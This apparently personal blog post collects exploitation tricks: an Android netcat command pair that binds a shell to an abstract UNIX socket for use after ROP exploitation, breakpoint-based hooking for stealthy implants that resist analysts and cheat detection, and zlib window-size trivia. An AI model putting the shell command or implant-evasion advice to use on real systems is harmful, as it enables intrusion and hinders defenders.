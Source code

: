 ```yaml
---
title: 'Bag of Tricks'
description: 'Various tricks compiled into a blog post'
layout: ../../layouts/BlogPost.astro
---
```


# Bag of Tricks

There are various tricks I've discovered when trying to exploit binaries for fun and profit. Here are a list of some of them.

## Trick 1: Creating Abstract UNIX Sockets on Android via Netcat

``netcat`` on Android was never meant to create abstract UNIX sockets. It takes the name of the abstract socket to create and then creates it in the filesytem.

This can be further confirmed by viewing the [source code](https://github.com/landley/toybox/blob/master/toys/net/netcat.c)

```c
// open AF_UNIX socket
static int usock(char *name, int type, int out)
{
  int sockfd;
  struct sockaddr_un sockaddr;

  memset(&sockaddr, 0, sizeof(struct sockaddr_un));

  if (strlen(name) + 1 > sizeof(sockaddr.sun_path))
    error_exit("socket path too long %s", name);
  strcpy(sockaddr.sun_path, name);
  sockaddr.sun_family = AF_UNIX;

  sockfd = xsocket(AF_UNIX, type, 0);
  (out?xconnect:xbind)(sockfd, (struct sockaddr*)&sockaddr, sizeof(sockaddr));

  return sockfd;
}
```

However, an empty name is perfectly acceptable to this function and UNIX sockets exist in the abstract namespace if the first byte is null so ``netcat`` accidentally allows the creation of and connection to an abstract UNIX socket reverse shell through the below command.

```sh
# Make the abstract UNIX socket reverse shell
nc -U -s '' -L sh

# Connect to the abstract UNIX socket reverse shell
nc -U ''
```

Why this trick can come in handy is that some processes on Android will have extremely restrictive permissions when it comes to making files on the filesystem and creating sockets, but will allow the creation of abstract UNIX sockets.

This trick paired with the appropriate ROP gadget makes your life 10x easier when trying to pop a reverse shell for such restrictive processes.

## Trick 2: Function Hooks via Breakpoints

This one isn't exactly a new trick yet it's a trick I strangely don't see or hear a lot of people use.

All major operating systems provide a way for the process to hook its own breakpoints with its own handler.

For POSIX, hooking is done via ``sigaction`` with the ``SIGTRAP`` signal. For Windows, it's done via ``AddVectoredExceptionHandler`` with the ``EXCEPTION_BREAKPOINT`` exception.

This trick allows applying "detours" to be atomic which is important when making an implant where accidentally crashing the process is not an option.

If the implanter decides to use hardware instead of software breakpoints, code patching is not even needed. This may even thwart a naive cheat detection engine or anything similar. It's also significantly harder for a malware analyst to use hardware breakpoints themselves to analyze the implant.

The biggest downside is that performance for this method of hooking is much slower than detours or function pointer patching.

## Trick 3: Zlib's Max Window Size

In the [zlib Technical Details](https://www.zlib.net/zlib_tech.html) under **Compression Factor Design Quirk**, the window size is limited to ``((1 << wbits) - 262)`` rather than ``(1 << wbits)``.

If the max window size is ``w`` when decompressing, the internal ring buffer of the decompressor would need to have at least a size of ``w + 1`` bytes to successfully decompress the payload.

This then turns this piece of trivia into a powerful detail because when configuring a ``zlib`` compressor with ``wbits``,  it allows an embedded device with a RAM size of ``(1 << wbits)`` available for the decompressor to still be able to decompress the stream it produces because the number of bytes needed becomes ``((1 << wbits) - 261)`` rather than ``((1 << wbits) + 1)``. 
